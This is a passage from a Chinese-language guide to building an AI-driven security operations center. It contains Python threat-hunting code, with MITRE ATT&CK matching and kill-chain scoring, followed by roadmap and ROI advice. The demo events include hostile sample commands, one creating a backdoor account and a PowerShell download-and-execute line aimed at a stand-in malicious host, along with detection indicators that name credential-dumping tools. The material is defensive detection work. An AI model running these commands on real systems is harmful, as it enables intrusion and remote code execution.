import networkx as nx
from dataclasses import dataclass, field
from typing import Dict, List, Any, Optional, Set, Tuple
from datetime import datetime, timedelta
from collections import defaultdict
from enum import Enum
import math


class KillChainPhase(Enum):
    """网络攻击杀伤链阶段"""
    RECONNAISSANCE = "reconnaissance"
    WEAPONIZATION = "weaponization"
    DELIVERY = "delivery"
    EXPLOITATION = "exploitation"
    INSTALLATION = "installation"
    C2 = "command_control"
    ACTIONS = "actions"


class MITRETactics(Enum):
    """MITRE ATT&CK 战术"""
    INITIAL_ACCESS = "TA0001"
    EXECUTION = "TA0002"
    PERSISTENCE = "TA0003"
    PRIVILEGE_ESCALATION = "TA0004"
    DEFENSE_EVASION = "TA0005"
    CREDENTIAL_ACCESS = "TA0006"
    DISCOVERY = "TA0007"
    LATERAL_MOVEMENT = "TA0008"
    COLLECTION = "TA0009"
    COMMAND_AND_CONTROL = "TA0011"
    EXFILTRATION = "TA0010"
    IMPACT = "TA0040"


class ThreatHunt:
    """威胁狩猎主类"""
    
    def __init__(self, hunt_id: str, hypothesis: str):
        self.hunt_id = hunt_id
        self.hypothesis = hypothesis
        self.created_at = datetime.now()
        self.modified_at = datetime.now()
        self.status = "active"
        self.evidence: List[Dict] = []
        self.findings: List[Dict] = []
        self.attack_graph = nx.DiGraph()
        self.ttp_mappings: Dict[str, List[str]] = {}
    
    def add_evidence(self, evidence: Dict):
        """添加证据"""
        evidence["detected_at"] = datetime.now().isoformat()
        self.evidence.append(evidence)
        self.modified_at = datetime.now()
    
    def add_finding(self, finding: Dict):
        """添加发现"""
        finding["found_at"] = datetime.now().isoformat()
        self.findings.append(finding)
        self.modified_at = datetime.now()
    
    def map_to_ttp(self, technique_id: str, tactic: MITRETactics):
        """映射到MITRE ATT&CK"""
        if tactic.value not in self.ttp_mappings:
            self.ttp_mappings[tactic.value] = []
        if technique_id not in self.ttp_mappings[tactic.value]:
            self.ttp_mappings[tactic.value].append(technique_id)


class AttackChainAnalyzer:
    """攻击链分析器"""
    
    def __init__(self):
        self.killchain_transitions = {
            KillChainPhase.RECONNAISSANCE: [KillChainPhase.WEAPONIZATION, KillChainPhase.DELIVERY],
            KillChainPhase.WEAPONIZATION: [KillChainPhase.DELIVERY],
            KillChainPhase.DELIVERY: [KillChainPhase.EXPLOITATION],
            KillChainPhase.EXPLOITATION: [KillChainPhase.INSTALLATION],
            KillChainPhase.INSTALLATION: [KillChainPhase.C2],
            KillChainPhase.C2: [KillChainPhase.ACTIONS],
            KillChainPhase.ACTIONS: []
        }
        
        self.technique_to_killchain = {
            "T1595": KillChainPhase.RECONNAISSANCE,
            "T1566": KillChainPhase.DELIVERY,
            "T1059": KillChainPhase.EXPLOITATION,
            "T1055": KillChainPhase.INSTALLATION,
            "T1071": KillChainPhase.C2,
            "T1041": KillChainPhase.ACTIONS
        }
    
    def build_attack_chain(self, events: List[Dict]) -> nx.DiGraph:
        """构建攻击链图"""
        graph = nx.DiGraph()
        
        sorted_events = sorted(events, key=lambda x: x.get("timestamp", datetime.now()))
        
        for i, event in enumerate(sorted_events):
            node_id = f"event_{i}_{event.get('id', hash(str(event)))}"
            
            graph.add_node(node_id, 
                          event_type=event.get("type"),
                          timestamp=event.get("timestamp"),
                          src_ip=event.get("src_ip"),
                          dst_ip=event.get("dst_ip"),
                          technique=event.get("technique"))
            
            if i > 0:
                prev_event = sorted_events[i-1]
                if self._is_related(prev_event, event):
                    graph.add_edge(f"event_{i-1}_{prev_event.get('id', hash(str(prev_event)))}", 
                                  node_id,
                                  relation=self._determine_relation(prev_event, event))
        
        return graph
    
    def _is_related(self, event1: Dict, event2: Dict) -> bool:
        """判断两个事件是否相关"""
        if event1.get("src_ip") == event2.get("src_ip"):
            return True
        if event1.get("dst_ip") == event2.get("dst_ip"):
            return True
        if event1.get("user") == event2.get("user"):
            return True
        
        time1 = event1.get("timestamp", datetime.now())
        time2 = event2.get("timestamp", datetime.now())
        if isinstance(time1, str):
            time1 = datetime.fromisoformat(time1)
        if isinstance(time2, str):
            time2 = datetime.fromisoformat(time2)
        
        if abs((time2 - time1).total_seconds()) < 300:
            return True
        
        return False
    
    def _determine_relation(self, event1: Dict, event2: Dict) -> str:
        """确定事件关系类型"""
        if event1.get("dst_ip") == event2.get("src_ip"):
            return "lateral_movement"
        if event1.get("technique") == event2.get("technique"):
            return "repeated_attack"
        if event1.get("user") == event2.get("user"):
            return "same_user"
        return "temporal"
    
    def detect_killchain_position(self, graph: nx.DiGraph) -> List[KillChainPhase]:
        """检测当前处于的攻击链阶段"""
        phases_detected = []
        
        for node in graph.nodes():
            technique = graph.nodes[node].get("technique")
            if technique and technique in self.technique_to_killchain:
                phase = self.technique_to_killchain[technique]
                if phase not in phases_detected:
                    phases_detected.append(phase)
        
        return phases_detected
    
    def identify_gaps(self, graph: nx.DiGraph) -> List[str]:
        """识别攻击链中的缺失环节"""
        detected_phases = set(self.detect_killchain_position(graph))
        all_phases = set(KillChainPhase)
        
        missing_phases = all_phases - detected_phases
        
        ordered_missing = [phase for phase in KillChainPhase if phase in missing_phases]
        
        gap_analysis = []
        for phase in ordered_missing:
            gap_analysis.append(f"缺少{phase.value}阶段，建议加强{phase.value}相关检测")
        
        return gap_analysis
    
    def calculate_risk_score(self, graph: nx.DiGraph) -> float:
        """计算攻击链风险评分"""
        if graph.number_of_nodes() == 0:
            return 0.0
        
        phases = self.detect_killchain_position(graph)
        
        phase_weights = {
            KillChainPhase.RECONNAISSANCE: 0.05,
            KillChainPhase.WEAPONIZATION: 0.10,
            KillChainPhase.DELIVERY: 0.15,
            KillChainPhase.EXPLOITATION: 0.20,
            KillChainPhase.INSTALLATION: 0.20,
            KillChainPhase.C2: 0.20,
            KillChainPhase.ACTIONS: 0.10
        }
        
        base_score = sum(phase_weights.get(p, 0) for p in phases)
        
        node_count = graph.number_of_nodes()
        if node_count > 10:
            base_score *= 1.5
        elif node_count > 5:
            base_score *= 1.2
        
        unique_techniques = len(set(graph.nodes[node].get("technique") 
                                    for node in graph.nodes() 
                                    if graph.nodes[node].get("technique")))
        if unique_techniques >= 3:
            base_score *= 1.3
        
        return min(base_score, 1.0)


class TTPMatcher:
    """MITRE ATT&CK TTP匹配器"""
    
    def __init__(self):
        self.technique_library = self._load_technique_library()
        self.behavior_signatures = self._build_behavior_signatures()
    
    def _load_technique_library(self) -> Dict[str, Dict]:
        """加载ATT&CK技术库"""
        return {
            "T1059": {
                "name": "Command and Scripting Interpreter",
                "tactic": "TA0002",
                "indicators": ["powershell", "cmd.exe", "bash", "python"],
                "severity": "high"
            },
            "T1055": {
                "name": "Process Injection",
                "tactic": "TA0004",
                "indicators": ["CreateRemoteThread", "NtCreateThreadEx", "QueueUserAPC"],
                "severity": "critical"
            },
            "T1071": {
                "name": "Application Layer Protocol",
                "tactic": "TA0011",
                "indicators": ["http", "https", "dns", "dga"],
                "severity": "high"
            },
            "T1041": {
                "name": "Exfiltration Over C2 Channel",
                "tactic": "TA0010",
                "indicators": ["large_outbound", "non_standard_port", "encrypted_transfer"],
                "severity": "critical"
            },
            "T1053": {
                "name": "Scheduled Task/Job",
                "tactic": "TA0003",
                "indicators": ["schtasks", "cron", "at"],
                "severity": "medium"
            },
            "T1021": {
                "name": "Remote Services",
                "tactic": "TA0008",
                "indicators": ["rdp", "ssh", "winrm", "psexec"],
                "severity": "high"
            },
            "T1003": {
                "name": "Credential Dumping",
                "tactic": "TA0006",
                "indicators": ["lsass", "mimikatz", "samdump", "NTDS.dit"],
                "severity": "critical"
            },
            "T1018": {
                "name": "Remote System Discovery",
                "tactic": "TA0007",
                "indicators": ["arp", "nbstat", "net view", "bloodhound"],
                "severity": "medium"
            }
        }
    
    def _build_behavior_signatures(self) -> Dict[str, List[str]]:
        """构建行为特征签名"""
        return {
            "lateral_movement": ["T1021", "T1071", "T1053"],
            "privilege_escalation": ["T1055", "T1068", "T1053"],
            "persistence": ["T1053", "T1098", "T1505"],
            "credential_access": ["T1003", "T1552", "T1110"],
            "exfiltration": ["T1041", "T1048", "T1567"],
            "defense_evasion": ["T1055", "T1562", "T1070"]
        }
    
    def match_technique(self, event: Dict) -> List[Dict]:
        """匹配技术ID"""
        matched_techniques = []
        event_type = event.get("event_type", "").lower()
        command = event.get("command", "").lower()
        process_name = event.get("process_name", "").lower()
        
        for tech_id, tech_info in self.technique_library.items():
            indicators = tech_info.get("indicators", [])
            
            for indicator in indicators:
                if indicator.lower() in event_type or \
                   indicator.lower() in command or \
                   indicator.lower() in process_name:
                    
                    matched_techniques.append({
                        "technique_id": tech_id,
                        "technique_name": tech_info["name"],
                        "tactic": tech_info["tactic"],
                        "matched_indicator": indicator,
                        "severity": tech_info["severity"],
                        "confidence": self._calculate_confidence(indicator, event)
                    })
                    break
        
        return matched_techniques
    
    def _calculate_confidence(self, indicator: str, event: Dict) -> float:
        """计算匹配置信度"""
        confidence = 0.5
        
        if event.get("result") == "success":
            confidence += 0.2
        if event.get("authenticated"):
            confidence += 0.1
        
        time_factor = event.get("time_since_last", 999)
        if time_factor < 60:
            confidence += 0.2
        
        return min(confidence, 1.0)
    
    def match_tactic(self, events: List[Dict]) -> Dict[str, float]:
        """匹配战术"""
        tactic_scores = defaultdict(float)
        tactic_counts = defaultdict(int)
        
        for event in events:
            matched = self.match_technique(event)
            for match in matched:
                tactic = match["tactic"]
                tactic_counts[tactic] += 1
                tactic_scores[tactic] += match["confidence"]
        
        for tactic in tactic_scores:
            if tactic_counts[tactic] > 0:
                tactic_scores[tactic] /= tactic_counts[tactic]
        
        return dict(tactic_scores)
    
    def generate_hypothesis(self, tactic_scores: Dict[str, float]) -> str:
        """生成威胁假设"""
        top_tactics = sorted(tactic_scores.items(), key=lambda x: x[1], reverse=True)[:3]
        
        hypothesis_templates = {
            "TA0008": "攻击者可能正在尝试横向移动，需要检查RDP/SSH/WinRM异常使用",
            "TA0006": "攻击者可能正在获取凭据，需要检查认证日志和敏感资源访问",
            "TA0011": "攻击者可能已建立命令控制通道，需要检查C2通信特征",
            "TA0010": "攻击者可能正在外传数据，需要检查大量出站流量和数据访问模式",
            "TA0004": "攻击者可能正在提权，需要检查权限变更和特权操作",
            "TA0003": "攻击者可能已建立持久化，需要检查计划任务和服务创建"
        }
        
        hypotheses = []
        for tactic, score in top_tactics:
            if score > 0.3 and tactic in hypothesis_templates:
                hypotheses.append(hypothesis_templates[tactic])
        
        return "; ".join(hypotheses) if hypotheses else "未发现明显攻击迹象"


class ThreatHunter:
    """威胁狩猎主引擎"""
    
    def __init__(self):
        self.active_hunts: Dict[str, ThreatHunt] = {}
        self.hunt_counter = 0
        self.attack_analyzer = AttackChainAnalyzer()
        self.ttp_matcher = TTPMatcher()
        self.hunt_templates = self._load_hunt_templates()
    
    def _load_hunt_templates(self) -> Dict[str, Dict]:
        """加载狩猎模板"""
        return {
            "apt_lateral_movement": {
                "name": "APT横向移动检测",
                "hypothesis": "攻击者可能通过RDP或SMB进行横向移动",
                "techniques": ["T1021", "T1071", "T1018"],
                "indicators": ["multiple_rdp", "smb_unusual", "lateral_scan"]
            },
            "credential_theft": {
                "name": "凭据窃取检测",
                "hypothesis": "攻击者可能正在窃取用户凭据",
                "techniques": ["T1003", "T1110", "T1552"],
                "indicators": ["lsass_access", "mimikatz_usage", "brute_force"]
            },
            "data_exfiltration": {
                "name": "数据外传检测",
                "hypothesis": "攻击者可能正在外传敏感数据",
                "techniques": ["T1041", "T1048", "T1567"],
                "indicators": ["large_outbound", "unusual_protocol", "encrypted_exfil"]
            },
            "persistence_mechanism": {
                "name": "持久化机制检测",
                "hypothesis": "攻击者可能已建立持久化后门",
                "techniques": ["T1053", "T1098", "T1547"],
                "indicators": ["scheduled_task", "registry_persistence", "service_creation"]
            }
        }
    
    def create_hunt(self, hypothesis: str, template: str = None) -> ThreatHunt:
        """创建威胁狩猎"""
        self.hunt_counter += 1
        hunt_id = f"HUNT-{datetime.now().strftime('%Y%m%d')}-{self.hunt_counter:04d}"
        
        if template and template in self.hunt_templates:
            template_info = self.hunt_templates[template]
            hypothesis = template_info["hypothesis"]
        
        hunt = ThreatHunt(hunt_id, hypothesis)
        self.active_hunts[hunt_id] = hunt
        
        return hunt
    
    def execute_hunt(self, hunt_id: str, event_data: List[Dict]) -> Dict:
        """执行威胁狩猎"""
        if hunt_id not in self.active_hunts:
            return {"error": "狩猎不存在"}
        
        hunt = self.active_hunts[hunt_id]
        
        for event in event_data:
            hunt.add_evidence(event)
        
        matched_techniques = []
        for event in event_data:
            techniques = self.ttp_matcher.match_technique(event)
            matched_techniques.extend(techniques)
        
        tactic_scores = self.ttp_matcher.match_tactic(event_data)
        
        attack_graph = self.attack_analyzer.build_attack_chain(event_data)
        
        current_phases = self.attack_analyzer.detect_killchain_position(attack_graph)
        missing_phases = self.attack_analyzer.identify_gaps(attack_graph)
        risk_score = self.attack_analyzer.calculate_risk_score(attack_graph)
        
        generated_hypothesis = self.ttp_matcher.generate_hypothesis(tactic_scores)
        
        result = {
            "hunt_id": hunt_id,
            "hypothesis": hunt.hypothesis,
            "generated_hypothesis": generated_hypothesis,
            "events_analyzed": len(event_data),
            "techniques_matched": matched_techniques,
            "tactics_detected": tactic_scores,
            "killchain_phases": [p.value for p in current_phases],
            "missing_phases": missing_phases,
            "attack_graph_nodes": attack_graph.number_of_nodes(),
            "attack_graph_edges": attack_graph.number_of_edges(),
            "risk_score": risk_score,
            "risk_level": self._score_to_level(risk_score)
        }
        
        if risk_score > 0.5:
            hunt.status = "escalated"
            hunt.add_finding({
                "type": "high_risk_alert",
                "risk_score": risk_score,
                "summary": f"检测到高风险攻击链，{len(matched_techniques)}个技术被识别"
            })
        
        return result
    
    def _score_to_level(self, score: float) -> str:
        """风险评分转等级"""
        if score >= 0.8:
            return "critical"
        elif score >= 0.6:
            return "high"
        elif score >= 0.4:
            return "medium"
        elif score >= 0.2:
            return "low"
        return "info"
    
    def get_hunt_summary(self) -> Dict:
        """获取狩猎汇总"""
        total = len(self.active_hunts)
        active = sum(1 for h in self.active_hunts.values() if h.status == "active")
        escalated = sum(1 for h in self.active_hunts.values() if h.status == "escalated")
        
        return {
            "total_hunts": total,
            "active_hunts": active,
            "escalated_hunts": escalated,
            "total_findings": sum(len(h.findings) for h in self.active_hunts.values())
        }


def demo_threat_hunting():
    """演示威胁狩猎功能"""
    print("=== AI SOC 威胁狩猎演示 ===\n")
    
    hunter = ThreatHunter()
    
    hunt = hunter.create_hunt(
        hypothesis="检测可能的横向移动攻击",
        template="apt_lateral_movement"
    )
    print(f"创建狩猎: {hunt.hunt_id}")
    print(f"假设: {hunt.hypothesis}")
    
    sample_events = [
        {
            "id": "evt_001",
            "timestamp": datetime.now().isoformat(),
            "type": "network_connection",
            "src_ip": "192.168.1.100",
            "dst_ip": "192.168.1.50",
            "dst_port": 3389,
            "protocol": "TCP",
            "event_type": "rdp_connection",
            "result": "success",
            "user": "zhangsan"
        },
        {
            "id": "evt_002",
            "timestamp": (datetime.now() + timedelta(minutes=5)).isoformat(),
            "type": "process_create",
            "src_ip": "192.168.1.50",
            "process_name": "cmd.exe",
            "command": "net user hacker P@ssw0rd /add",
            "event_type": "account_creation",
            "result": "success",
            "user": "SYSTEM"
        },
        {
            "id": "evt_003",
            "timestamp": (datetime.now() + timedelta(minutes=10)).isoformat(),
            "type": "process_create",
            "src_ip": "192.168.1.50",
            "process_name": "powershell.exe",
            "command": "IEX (New-Object Net.WebClient).DownloadString('http://malicious.com/c2.txt')",
            "event_type": "powershell_download",
            "result": "success"
        },
        {
            "id": "evt_004",
            "timestamp": (datetime.now() + timedelta(minutes=15)).isoformat(),
            "type": "network_connection",
            "src_ip": "192.168.1.50",
            "dst_ip": "203.0.113.100",
            "dst_port": 443,
            "protocol": "HTTPS",
            "event_type": "c2_communication",
            "result": "success"
        },
        {
            "id": "evt_005",
            "timestamp": (datetime.now() + timedelta(minutes=20)).isoformat(),
            "type": "file_access",
            "src_ip": "192.168.1.50",
            "resource": "/share/financial/Q4_report.xlsx",
            "action": "read",
            "event_type": "sensitive_data_access",
            "result": "success",
            "user": "hacker"
        },
        {
            "id": "evt_006",
            "timestamp": (datetime.now() + timedelta(minutes=25)).isoformat(),
            "type": "network_transfer",
            "src_ip": "192.168.1.50",
            "dst_ip": "203.0.113.100",
            "data_volume": 52428800,
            "protocol": "HTTPS",
            "event_type": "data_exfiltration",
            "result": "success"
        }
    ]
    
    print(f"\n输入{len(sample_events)}个安全事件进行分析...\n")
    
    result = hunter.execute_hunt(hunt.hunt_id, sample_events)
    
    print("=== 狩猎结果 ===")
    print(f"狩猎ID: {result['hunt_id']}")
    print(f"分析事件: {result['events_analyzed']}")
    print(f"风险等级: {result['risk_level'].upper()}")
    print(f"风险评分: {result['risk_score']:.3f}")
    
    print(f"\n检测到的战术:")
    for tactic, score in result['tactics_detected'].items():
        print(f"  {tactic}: {score:.3f}")
    
    print(f"\n攻击链阶段:")
    for phase in result['killchain_phases']:
        print(f"  - {phase}")
    
    if result['missing_phases']:
        print(f"\n缺失环节:")
        for gap in result['missing_phases'][:3]:
            print(f"  - {gap}")
    
    print(f"\n匹配的ATT&CK技术:")
    for tech in result['techniques_matched'][:5]:
        print(f"  [{tech['technique_id']}] {tech['technique_name']} (置信度: {tech['confidence']:.2f})")
    
    print(f"\n生成的假设:\n  {result['generated_hypothesis']}")
    
    summary = hunter.get_hunt_summary()
    print(f"\n=== 狩猎汇总 ===")
    print(f"总狩猎数: {summary['total_hunts']}")
    print(f"活跃狩猎: {summary['active_hunts']}")
    print(f"升级狩猎: {summary['escalated_hunts']}")
    print(f"总发现数: {summary['total_findings']}")


if __name__ == "__main__":
    demo_threat_hunting()
```

### 5.2 全面自动化响应

第三阶段将实现安全响应的全面自动化，包括自动遏制、自动修复、自动恢复三个层次。自动遏制在检测到威胁后立即切断攻击路径，防止威胁扩散；自动修复在威胁遏制后自动清理恶意软件、修复被篡改的配置；自动恢复在安全事件处置完成后自动恢复受影响的系统和服务。



**SOAR平台增强**是实现全面自动化的技术基础。第三阶段需要升级SOAR平台能力，支持复杂场景的自动化决策、跨组织协调响应、实时学习自适应等高级功能。SOAR剧本设计需要覆盖主要安全场景，包括恶意软件处置、账号攻击响应、数据泄露遏制、勒索软件应对等。

### 5.3 AI SOC自我进化机制

AI SOC的终极目标是建立自我学习、自我优化、自我进化的能力体系。这一机制包括模型自动迭代、数据闭环反馈、效果持续监控三个核心组件。

**模型自动迭代**基于生产环境反馈数据，定期重新训练和更新检测模型。迭代周期建议设为两周一次，迭代内容包括新增样本标注、模型超参数调优、模型版本切换等。自动化迭代 pipeline 需要建立完整的模型版本管理、A/B测试、灰度发布机制，确保新模型的效果不低于现有模型。

## 6 关键成功因素分析

### 6.1 技术层面关键成功因素

**数据质量与数据治理**是AI SOC建设的基础前提。研究表明，数据质量问题导致的模型效果下降占AI安全项目失败原因的40%以上。企业需要建立完善的数据质量管理机制，确保安全数据的完整性、准确性、一致性和时效性。数据治理工作应当从第一阶段就开始投入，而不是作为辅助性工作轻视对待。

**AI模型的可解释性**是获得安全团队信任的关键因素。安全分析师需要理解AI为什么产生某个告警，才能有效利用AI辅助决策。当前主流的可解释AI技术包括SHAP（SHapley Additive exPlanations）、LIME（Local Interpretable Model-agnostic Explanations）、特征重要性分析等。企业应当在AI SOC建设之初就将可解释性作为模型选型的重要标准。

**系统集成复杂度**是技术实施的主要挑战。AI SOC需要与现有安全工具、网络基础设施、业务系统进行深度集成，集成的质量和效率直接影响项目进度。建议采用松耦合的集成架构，通过标准化API进行数据交换，减少系统间的直接依赖。

| 技术因素 | 重要性权重 | 风险等级 | 应对策略 |
|---------|-----------|---------|---------|
| 数据质量 | 0.25 | 高 | 早期投入，建立数据治理体系 |
| 模型可解释性 | 0.20 | 中 | 选择可解释模型，提供解释工具 |
| 系统集成 | 0.20 | 高 | 采用松耦合架构，标准化接口 |
| 性能与扩展性 | 0.15 | 中 | 采用分布式架构，容量规划 |
| 安全性与合规 | 0.20 | 高 | 安全开发生命周期，合规审计 |

### 6.2 组织层面关键成功因素

**高层支持与资源投入**是AI SOC建设成功的首要保障。AI SOC项目通常需要较大的前期投入，包括技术平台建设、人才团队培养、流程体系重构等。高层管理者需要充分认识到AI SOC的战略价值，提供持续稳定的资源支持，并在组织内部推动跨部门协作。

**安全团队能力转型**是AI SOC运营的关键支撑。传统安全分析师向AI安全分析师的转型需要系统性的培训和实践。建议采用"培训+实战+认证"三结合的培养模式，让安全团队在真实环境中逐步掌握AI驱动安全运营的技能。

**组织文化变革**是AI SOC落地的深层挑战。AI的引入会改变安全团队的工作方式和职责边界，部分人员可能对AI技术存在抵触情绪。组织需要通过透明沟通、参与式设计、渐进式推进等方式，帮助团队理解AI是增强而非取代人类能力，建立人机协作的新工作模式。

### 6.3 流程层面关键成功因素

**渐进式实施策略**比大爆炸式变革更容易成功。AI SOC建设应当采用分阶段、迭代式的实施方式，每个阶段设定明确的目标和验收标准，在验证效果后再推进下一阶段。这种方式可以有效控制风险，及时发现和解决问题，获得阶段性成果增强团队信心。

**持续优化机制**是AI SOC长期成功的保障。AI SOC不是一次性建设项目，而是需要持续运营和优化的能力体系。企业需要建立效果监控、问题反馈、持续改进的闭环机制，确保AI SOC能力能够与威胁态势和业务需求共同演进。

**度量与评估体系**为持续优化提供数据支撑。企业需要建立完善的安全运营度量体系，覆盖效率指标（告警处理时间、响应时间）、效果指标（检测率、误报率）、价值指标（事件损失减少、合规达标率）等多个维度。度量数据不仅用于评估当前状态，更为优化决策提供依据。

### 6.4 关键成功因素综合分析



基于大量企业案例分析，我们识别出18类关键成功因素，按重要性排序如下：

1. 高层管理者的持续支持与资源承诺
2. 安全数据的质量、完整性和可访问性
3. 安全团队的AI技能与转型意愿
4. 清晰的项目愿景和分阶段目标
5. 成熟的数据治理体系
6. AI模型的可解释性和可信度
7. 与现有安全工具的集成能力
8. 渐进式实施和迭代优化策略
9. 跨部门协作机制
10. 持续的效果监控和改进机制
11. 明确的度量指标和评估体系
12. AI伦理和合规框架
13. 威胁情报整合能力
14. 安全事件的闭环管理流程
15. 自动化响应能力
16. 知识管理和经验沉淀
17. 供应商和生态合作伙伴支持
18. 行业标杆学习和交流

## 7 企业落地实践建议

### 7.1 不同规模企业的差异化策略

**大型企业（员工5000人以上）** 可以采用全面建设的策略，配置专职AI SOC团队，投入充足资源建设完整的能力体系。建议18个月的实施周期覆盖全部三个阶段，重点关注与现有安全体系的深度整合、跨业务线的协同响应、集团级别的安全能力集中管理。

**中型企业（员工1000-5000人）** 建议采用重点突破的策略，优先建设核心场景的AI检测能力，选择成熟度高的AI安全产品快速上线。建议12-15个月的实施周期，重点关注投入产出比最高的告警降噪和自动化响应能力，可适当采用托管安全服务补充能力短板。

**小型企业（员工1000人以下）** 建议采用云化服务的策略，直接采用AI安全运营云服务，无需自行建设基础设施。可选择与MSP（托管安全服务提供商）合作，借助外部专业团队实现AI SOC能力。实施周期可压缩至6-12个月，重点关注云原生AI安全工具的部署和配置。

### 7.2 常见误区与避坑指南

**误区一：重技术轻数据**。很多企业认为AI SOC建设的核心是购买先进的AI平台，忽视了数据治理的基础性工作。实际上，即使最先进的AI模型也需要高质量数据的支撑。建议企业在AI SOC项目启动前，至少投入3-6个月进行数据治理体系建设。

**误区二：追求全自动替代人工**。部分企业对AI能力期望过高，希望AI能够完全替代人工完成所有安全运营工作。实际上，AI更适合作为辅助工具增强人类能力，而非完全取代。在可预见的未来，高级安全分析、重大决策、复杂场景应对仍需要人类专家的参与。

**误区三：忽视可解释性和可信度**。如果安全分析师不信任AI的判断，AI SOC就无法真正发挥作用。企业需要选择可解释性强的模型技术，同时建立AI与分析师的交互反馈机制，让AI的判断越来越准确，越来越值得信赖。

**误区四：项目上线即结束**。AI SOC是持续运营和优化的过程，不是一次性项目。很多企业在完成平台部署后就认为项目结束，忽视了持续的模型调优、效果评估、流程改进等工作。建议建立AI SOC运营的长期机制，配置专门的运营团队。

### 7.3 ROI评估与价值实现

AI SOC建设的价值评估需要综合考虑直接效益和间接效益。直接效益包括安全事件响应效率提升、人力成本节省、安全事件损失减少等可量化指标。间接效益包括安全能力品牌提升、客户信任增强、合规水平改善等难以直接量化但具有战略价值的收益。

典型的AI SOC ROI计算模型：

$$ROI = \frac{(效率提升价值 + 损失避免价值 + 合规价值) - (建设成本 + 运营成本)}{建设成本 + 运营成本} \times 100\%$$

根据行业研究，全面建设的AI SOC项目通常在18-24个月内实现ROI转正，此后每年可持续产生正向回报。需要注意的是，ROI评估应当采用保守假设，避免过度乐观的预期影响决策。

## 8 总结与展望

### 8.1 核心要点回顾

本文系统阐述了企业AI SOC从0到1建设的完整落地路线图，核心内容包括：

**三阶段实施规划模型**：基础夯实期（1-6个月）聚焦数据治理、工具整合、团队培训；能力提升期（6-12个月）引入AI检测、智能降噪、流程优化；智能自主期（12-18个月）实现深度智能化、全面自动化、自我进化。

**里程碑与验收标准体系**：为每个阶段、每项任务设定明确的验收条件和评估方法，确保建设过程可控、成果可量化。

**关键成功因素分析**：识别18类关键成功因素，涵盖技术、组织、流程三个维度，为企业提供全面的实施指导。

### 8.2 未来发展趋势展望

AI SOC技术正在快速演进，以下趋势值得关注：

**大语言模型（LLM）深度赋能**：GPT-4等大语言模型正在革新安全运营范式，分析师可以借助自然语言与AI系统交互，获取智能化的威胁分析和响应建议。预计到2027年，超过50%的安全运营交互将涉及AI大语言模型。

**AI原生安全架构**：未来的安全架构将深度融合AI能力，Security Copilot将成为安全分析师的标准工作伴侣，实现"AI驱动、AI原生、AI增强"的完整安全体系。

**自主安全运营**：随着AI能力的持续提升，部分场景下AI将具备自主决策和执行的能力，安全运营将从"人类主导、AI辅助"向"AI主导、人类监督"演进。

### 8.3 给企业安全团队的寄语

AI SOC建设是一段充满挑战但极具价值的旅程。建议企业安全团队：

- **保持战略定力**：AI SOC建设不可能一蹴而就，需要长期投入和持续优化
- **坚持务实推进**：分阶段、小步快跑、快速验证、及时调整
- **重视能力建设**：工具会过时，但团队能力是永恒的资产
- **拥抱人机协作**：AI是增强人类能力的工具，而非取代人类
- **持续学习进化**：威胁态势不断变化，AI SOC能力也需要与时俱进

愿每一个致力于AI SOC建设的企业都能找到适合自己的落地路径，构建真正有效的智能安全运营能力。

---

**参考链接：**

- 主要来源：[MITRE ATT&CK Framework](https://attack.mitre.org/) - 攻击技术知识库
- 主要来源：[NIST AI Risk Management Framework](https://csrc.nist.gov/AI-RMF) - AI风险管理框架
- 主要来源：[Gartner Security Operations Trends](https://www.gartner.com/en/security) - 安全运营趋势研究
- 参考来源：[Elastic Security Machine Learning](https://www.elastic.co/security) - AI驱动安全检测技术
- 参考来源：[Splunk Security ML](https://www.splunk.com/en_us/security-solutions/security-analytics.html) - 安全分析机器学习

**附录（Appendix）：**

### A. AI SOC技术栈参考架构

```
┌─────────────────────────────────────────────────────────────────┐
│                        AI SOC 平台架构                            │
├─────────────────────────────────────────────────────────────────┤
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐           │
│  │   数据采集层   │  │   数据存储层   │  │   数据处理层   │           │
│  │  Syslog/FW   │  │   Elasticsearch│  │  Kafka/Spark │           │
│  │  API/Webhook │  │   Hadoop/Hive │  │  Flink/Storm │           │
│  └──────────────┘  └──────────────┘  └──────────────┘           │
├─────────────────────────────────────────────────────────────────┤
│  ┌──────────────────────────────────────────────────────────┐   │
│  │                      AI 能力层                            │   │
│  │  ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐ ┌────────┐   │   │
│  │  │异常检测│ │行为分析│ │威胁情报│ │NLP分析 │ │知识图谱│   │   │
│  │  └────────┘ └────────┘ └────────┘ └────────┘ └────────┘   │   │
│  └──────────────────────────────────────────────────────────┘   │
├─────────────────────────────────────────────────────────────────┤
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐           │
│  │  智能告警    │  │   SOAR引擎   │  │  可视化平台   │           │
│  │   降噪系统   │  │   自动化响应 │  │  Dashboard   │           │
│  └──────────────┘  └──────────────┘  └──────────────┘           │
└─────────────────────────────────────────────────────────────────┘
```

### B. AI模型评估指标说明

| 指标 | 计算公式 | 理想值 | 说明 |
|-----|---------|-------|------|
| Precision | TP/(TP+FP) | >0.9 | 预测为正的样本中真正例的比例 |
| Recall | TP/(TP+FN) | >0.85 | 真正例占所有正例的比例 |
| F1-Score | 2×P×R/(P+R) | >0.87 | Precision和Recall的调和平均 |
| False Positive Rate | FP/(FP+TN) | <0.05 | 误报率，越低越好 |
| AUC-ROC | - | >0.95 | ROC曲线下面积，越大越好 |

### C. 推荐学习资源

1. Coursera: "AI for Everyone" - AI基础理论
2. SANS Institute: "AI in Cybersecurity" - AI安全应用
3. MITRE: "ATT&CK Navigator" - 威胁狩猎实践
4. Splunk: "Security ML Toolkit" - 安全ML实战

**关键词：** AI SOC, 安全运营中心, 威胁检测, 异常行为分析, SOAR, 安全自动化, 机器学习, 威胁狩猎, 智能降噪, 安全编排, MITRE ATT&CK, 安全运营, AI安全, 安全智能化
